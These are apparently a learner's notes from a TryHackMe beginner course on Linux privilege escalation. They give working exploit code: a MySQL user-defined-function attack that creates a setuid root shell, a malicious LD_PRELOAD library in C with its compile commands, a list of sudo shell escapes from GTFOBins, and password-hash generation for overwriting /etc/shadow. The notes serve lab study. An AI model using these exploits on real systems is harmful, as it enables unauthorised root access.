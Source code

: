 # TryHackMe: Complete Beginner

* **author**:: Nathan Acks
* **date**:: 2021-10-30

## Linux PrivEsc

### Service Exploits

[Exploiting MySQL running as root via a malicious user-defined function dynamic library.](https://www.exploit-db.com/exploits/1518)

The key to this is that if MySQL is running as root, then it can write files to all manner of directories. We use this to load a malicious library (raptor_udf2.so from the above ExploitDB link) as a plugin by first dumping it as a blob into a table and then dumping it back out in MySQL's plugin directory. Once there, we define a UDF using the malicious plugin to allow us to execute system commands; in particular, this lets us set the sticky bit on a copied shell that we can then execute to obtain root.

```bash
cd /home/user/tools/mysql-udf
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
cat > rootme.sql <<EOF
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
EOF
mysql -u root mysql < rootme.sql
/tmp/rootbash -p # Root!
```

### Weak File Permissions

Make a new password hash for /etc/password or /etc/shadow:

```bash
mkpasswd -m sha-512 $PASSWORD
```

[It's also possible to generate MD5 passwords for /etc/passwd using the openssl binary.](../notes/local-file-inclusion-attacks.md)

### Sudo

Some shell escapes via GTFOBins:

* `awk` - `awk 'BEGIN {system("/bin/sh")}'`
* `find` - `find . -exec /bin/sh \; -quit`
* `ftp` - `!/bin/sh`
* `iftop` - `!/bin/sh`
* `less` - `!/bin/sh`
* `man` - `!/bin/sh`
* `more` - `!/bin/sh` (may require TERM to be unset)
* `nano` - ^R^X followed by `reset; sh 1>&0 2>&0`
* `nmap` - create a file containing `os.execute("/bin/sh")` and then run `nmap --script=$FILE`
* `vim` - `:set shell=/bin/sh` followed by `:shell`

If LD_PRELOAD or LD_LIBRARY_PATH are preserved by sudo, then it's also possible to use a malicious dynamic library to gain root access. Preserved environment variables are listed by `sudo -l`.

LD_PRELOAD is probably the easiest of these to exploit, because a library listed in this environment variable is just automatically loaded on application start. So just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`.

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

Using LD_LIBRARY_PATH is a bit trickier; use ldd to see what libraries a program is already pulling in, and then name your malicious library after one of these. Then run `sudo LD_LIBRARY_PATH=/path/to/malicious/library program-runnable-with-nopasswd` to trick the program into loading your malicious library instead of the legitimate system library.

While the same code as LD_PRELOAD can be used as a starting point for an LD_LIBRARY_PATH exploit, things get trickier because some libraries are required by others, loaded at different times, or have functions (symbols) that are loaded but not used right away. So some amount of trial-and-error, both in the naming of the malicious library and in what functions are defined within it, may be required.

NOTE that not every UNIX-like system calls their library path LD_LIBRARY_PATH!

* [GTFOBins](https://gtfobins.github.io)
